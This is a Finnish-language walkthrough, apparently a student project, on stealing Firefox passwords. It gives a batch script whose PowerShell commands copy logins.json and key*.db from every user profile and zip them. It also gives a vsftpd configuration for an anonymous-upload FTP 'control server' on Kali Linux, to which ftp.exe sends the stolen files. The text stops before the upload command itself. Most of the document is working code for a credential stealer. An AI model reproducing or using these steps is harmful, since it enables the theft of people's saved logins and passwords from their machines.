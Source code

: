 # Firefox salasanojen varastus

## Esittely
Käytin salasanojen varastamiseen yksinkertaista .bat tiedostoa, joka käytti powershelliä ja FTP.exeä Firefox salasana tiedostojen kopioimiseen ja lähettämiseen, sekä VSFTPD:tä tiedostojen vastaanottoon.
## Selitys
Aloitin luomalla varas.bat nimisen tiedoston, johon lisäsin notepadilla rivin:
```
mkdir C:\salasanat\
```
Testasin, että ohjelma pystyy luomaan kyseisen kansion C:\ levyn alkuun ja se onnistui.  
Tämä jälkeen tutkin missä tiedostossa Firefox säilyttää salasanoja.  
Firefox tallentaa käyttäjätunnukset ja salasanat logins.json nimiseen tiedostoon, mutta kryptaa ne kevyesti. Kryptauksen avaimen firefox hakee tiedostosta key3.db, jossa numero ilmeisesti vaihtelee.  
Kummatkin tiedostot löytyvät Polusta: C:\Users\(käyttäjänimi)\AppData\Roaming\Mozilla\Firefox\Profiles\(profiilinimi.satunnainenkoodi)\  
Koska polussa on vaihtelevia merkkejä, niin käytin powershell komentoa, johon voi tähdellä merkata kohdat, joista valitaan kaikki.
Lisäsin siis rivi ohjelmaan pätkät:
```
powershell Copy-Item -Path C:\Users\*\AppData\Roaming\Mozilla\Firefox\Profiles\*.*\logins.json -Destination C:\salasanat\
powershell Copy-Item -Path C:\Users\*\AppData\Roaming\Mozilla\Firefox\Profiles\*.*\key*.db -Destination C:\salasanat\
```
Näin ohjelma osaa kopioida tiedostot vaikka polussa ja tiedoston nimessä olevat tekstit vaihtelisivatki koneittain.  

Tämän jälkeen käytin powershelliä, jotta sain tiedostot pakattua yhdeksi nätiksi zip tiedostoksi.
```
powershell Compress-Archive -Path C:\salasanat -DestinationPath C:\salasanat\salasanat.zip
```
Seuraavaksi vastassa oli tiedostojen lähettäminen hallintapalvelimelle, jossa tiedostot voidaan purkaa selkolukuisiksi.  
Päätin käyttää ftp.exeä, koska se on Windowsissa valmiiksi mukana.  
  
Koska käytän FTP:tä, niin pitää hallintapalvelimellani olla myös palvelu, joka osaa vastaanottaa FTP:n kautta tiedostoja.  
Asensin siis Kali Linuxiini VSFTPD ohjelman, joka toimii FTP palvelimena.  
Ohjelma asentui nätisti komennolla:
```
sudo apt-get -y install vsftpd
```
Tämän jälkeen tutkin miten palvelimelle saisi lähetettyä tiedostoja nopeasti ilman, että siihen tarvitsee kirjautua.  
Korvasin VSFTPD:n oletus konfiguraation omallani, joka sallii vain anonyymit yhteydet ja rajoittaa FTP tiedostojen lähettämisen vain yhteen tiedosto polkuun /tmp/sala kansioon.  
Konfiguraatio näytti kokonaisuudessaan tältä:
```
listen=YES
anonymous_enable=YES
write_enable=YES
anon_upload_enable=YES
anon_mkdir_write_enable=YES
anon_root=/tmp/sala
#
pasv_enable=YES
pasv_promiscuous=YES
log_ftp_protocol=YES
```
Nyt pystyin lähettämään tiedostoja FTP:n kautta kansioon /tmp/sala  